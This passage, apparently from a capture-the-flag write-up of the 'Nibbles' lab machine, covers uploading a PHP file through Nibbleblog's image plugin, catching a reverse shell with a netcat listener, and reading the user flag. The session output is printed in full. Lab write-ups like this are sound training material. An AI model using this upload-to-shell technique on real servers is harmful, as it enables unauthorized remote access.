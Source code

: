 Finally, click "Save changes". After saving, we get some errors, however, none of them confirm whether the file was uploaded or not.

![](<../../.gitbook/assets/14 (1) (1).JPG>)

To find the file, we'll need to go back to the /content/ directory we found earlier. There is a "plugins" directory at [http://10.10.10.75/nibbleblog/content/private/plugins/my\_image/](http://10.10.10.75/nibbleblog/content/private/plugins/my\_image/) whch contains the uploaded PHP file. Note that the application renamed it to image.php.

![](../../.gitbook/assets/15.JPG)

Start a netcat listener and click on the "image.php" file to get a shell as user "nibbler", and we can grab the user flag.

```
└─$ nc -nvlp 9999                                                                                           130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.75.
Ncat: Connection from 10.10.10.75:35980.
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:36:07 up  1:18,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home/nibbler
$ ls
personal.zip
user.txt
$ cat user.txt
ab7e4625e3b14b2add3f78661d5e7569
$ 
```
